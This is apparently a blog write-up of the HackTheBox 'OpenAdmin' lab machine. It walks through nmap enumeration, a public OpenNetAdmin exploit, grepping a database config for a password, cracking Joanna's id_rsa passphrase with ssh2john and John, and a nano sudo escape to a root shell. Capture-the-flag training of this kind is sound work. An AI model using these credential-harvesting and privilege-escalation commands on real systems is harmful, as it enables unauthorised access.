 ```yaml
---
layout: post
title: "Hackthebox — Openadmin Writeup"
date: 2021-11-17  
categories: [Hackthebox, HTB-Linux]
tags: [opennetadmin, gtfobins, ssh2john, id_rsa, hackthebox]
image: ../../assets/img/posts/Openadmin/openadmin.jpg
---
```


## Summary -

**OpenAdmin** from HackTheBox is an easy-rated machine which involves an exploit for OpenNetAdmin to get a foothold on the machine. There are 2 users on the box Jimmy and Joanna . We get the password for Jimmy via database config file & then ssh as Jimmy, then on enumerating we find an internal application running.Doing a simple curl command reveals id_rsa key of Joanna. We then crack the password of the id_rsa file and ssh into the machine as Joanna. For root, we find that we have sudo privileges over nano . We refer sudo entry for nano on  [gtfobins](https://gtfobins.github.io/gtfobins/nano/)  & we easily escalate our privileges as root!


| **Name  -** | Openadmin |
|:---:|---|
| **OS   -**    | Linux |
| **Difficulty -** | Easy |
| **Room Link   -** | https://www.hackthebox.eu/home/machines/profile/222 |
| **Creator   -** | [del_KZx497Ju](https://www.hackthebox.eu/home/users/profile/82600) 
 |


## Enumeration -

**Nmap**


```zsh
# Nmap 7.91 scan initiated Tue Jul  6 14:02:13 2021 as: nmap -sC -sV -p 22,80 -v -oN openadmin.nmap 10.10.10.171
Nmap scan report for 10.10.10.171
Host is up (0.46s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  6 14:02:42 2021 -- 1 IP address (1 host up) scanned in 28.86 seconds

``` 
As you can see there are 2 ports open :

**Port 22** - `SSH`   -  `OpenSSH 7.6p1 Ubuntu 4ubuntu0.3`

**Port 80** - `HTTP`  -  `Apache httpd 2.4.29`


**Web Enumeration**

At port 80 we find default page of apache 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625730338625/uCtP0pGDm.png)
Lets do some directory bruteforcing. Dirsearch reveals the following directories 

```
/music
/artwork
/sierra
``` 
On visiting the ***/music*** directory It gives us this page
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625730702532/MBOEMMzap.png)
 This login button takes us to `http://openadmin.htb/ona` .On visiting,we get a page like this 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625730557375/VnYYMhh6F.png)

From the above , we could identify that the software is `OpenNetAdmin` and the version is `v18.1.1`
## Foothold  -

We use `searchsploit` to find any publicly available exploits for `OpenNetAdmin - v18.1.1` ,& we find this

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625829682381/9bCc51NNt.png)

Lets mirror it to our current directory

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625829835307/xekdj_qUR.png)

Lets run the exploit 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830040051/GFqNaKtRd.png)
And we are `www-data `  user

There are 2 users on the machine `Jimmy` and `Joanna`

```bash
 cat /etc/passwd | grep -i "bash"
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830263020/lMQid09DX.png)

## Shell as Jimmy -
On enumerating the current directory we find a `database config file` which contains a password !


```bash
cat local/config/database_settings.inc.php | grep -i "pass"
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830572487/QNWheVAMf.png)
We are not sure which user's password is this , so first we try to ssh into the machine as Jimmy & we're logged in !

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625830737331/wKrurZtl2.png)

Running `id`  command we see that we are part of `internal` group .Lets keep that in mind and move ahead & enumerate further ..
We run a find command to check for files which jimmy owns 


```bash
 find / -user jimmy 2>/dev/null
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831118840/e9JJqmT43.png)
HMM..INTERESTING ! Lets check that  `/var/www/internal/` directory

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831234552/MBVd6-DoMg.png)
Seems like there is an internal website running here 🧐 .We can verify it by running 
 
```bash
netstat -tulpn
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831363346/jweAQt1FR2.png)

## Shell as Joanna -

Lets check that internal website running at `port 52486` by using `curl` command


```bash
 curl localhost:52846/main.php
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832226010/qxh-pQYio.png)
Voila we get an **encrypted id_rsa key** !! Lets crack it and ssh in as *Joanna *!

Run `ssh2john` against `id_rsa` file to obtain a hash and crack it using John -


```bash
 /usr/share/john/ssh2john.py --wordlist=/usr/share/wordlists/rockyou.txt id_rsa >> hash

 john --wordlists=/usr/share/wordlists/rockyou.txt hash
``` 


![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831758138/VX9FLY6z2.png)
We get Joanna's password !Lets try ssh into the box as Joanna 

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625831939144/xnOPraY0g3.png)
 Grab the  `user.txt`🚩
  
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832725095/-oQxN0eMe.png)

## Shell as Root -
Running `sudo -l` we find we could run nano on `/opt/priv` directory

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832068247/PFgUlh4Mw.png)
So we check  [GTFOBINS](https://gtfobins.github.io/gtfobins/nano/)  for any **sudo entry for nano**

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625832344408/Ds0lpTgVL.png)

```
sudo /bin/nano /opt/priv
^R^X
reset; sh 1>&0 2>&0
```

Run the above commands to get a root shell 
Grab the `root.txt ` 🚩  😎

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625834602463/OH8oNETD7.png)






